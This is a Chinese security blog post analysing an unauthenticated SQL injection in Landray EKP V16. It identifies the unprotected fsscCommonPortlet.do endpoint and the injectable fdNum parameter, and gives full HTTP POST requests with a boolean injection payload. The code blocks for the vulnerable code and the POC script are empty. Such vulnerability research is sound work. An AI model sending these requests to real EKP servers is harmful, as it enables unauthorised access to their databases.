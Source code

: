 #  蓝凌EKP V16 未授权SQL注入漏洞分析   
 船山信安   2024-12-23 16:05  
  
本地测试环境版本：V16.0.6.R.20220729  
## 漏洞分析  
  
漏洞路径在：/fssc/common/fssc_common_portlet/fsscCommonPortlet.do，对应的Action为FsscCommonPortletAction  
，在其getICareByFdId  
方法中存在注入漏洞：  
```
```  
  
fdNum参数可控，很明显的SQL注入。在WEB-INF/KmssConfig/fssc/common/design.xml文件中定义了/fssc/common/  
路径下的权限访问：  
```
```  
  
正常情况下，访问/fssc/common/  
路径下的所有action，validator都会为true，即未授权访问，在上面的design.xml配置文件中，只对/fssc/common/  
的如下路径做了权限控制：  
```
tree.jsp*
fssc_common_transfer_field/fsscCommonTransferField.do*
fssc_common_transfer_log/fsscCommonTransferLog.do*
```  
  
而漏洞触发路径/fssc/common/fssc_common_portlet/fsscCommonPortlet.do  
并未存在于上述限制路径，所以可直接未授权访问。  
## 漏洞复现  
### step 1  
  
访问save方法，填充一下数据库，数据包如下：  
```
POST /ekp/fssc/common/fssc_common_portlet/fsscCommonPortlet.do HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 76

method=saveICare&fdId=&fdNum=1&docSubject=1&fdName=1&createTime=1&fdStatus=1
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOWgiaB7iaiaGBYw2c15SDZpz5icgbJvAqQ7WvGV9EgwJVzJdfgl8phPEOqN0l3AOOib3w3xBfLQBbrNCg/640?wx_fmt=png&from=appmsg "")  
### step 2  
  
验证存在SQL注入漏洞  
- fdNum=asdasd'+or+'1'='2  
  
- fdNum=asdasd'+or+'1'='1  
  
```
POST /ekp/fssc/common/fssc_common_portlet/fsscCommonPortlet.do HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

method=getICareByFdId&fdNum=asdasd'+or+'1'='1&ordertype=down
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOWgiaB7iaiaGBYw2c15SDZpz56Ed5hsibvfnhUGwDqlZ4de0Ib8QTyovKSRGDDrxZTkib2YXfTIdT4UzA/640?wx_fmt=png&from=appmsg "")  
  
POC脚本如下：(本地测试环境是MSSQL，Mysql or Oracle自行修改脚本)  
```
```  
  
来源：https://xz.aliyun.com/  感谢【  
co_w****  
   
/  
】  
  
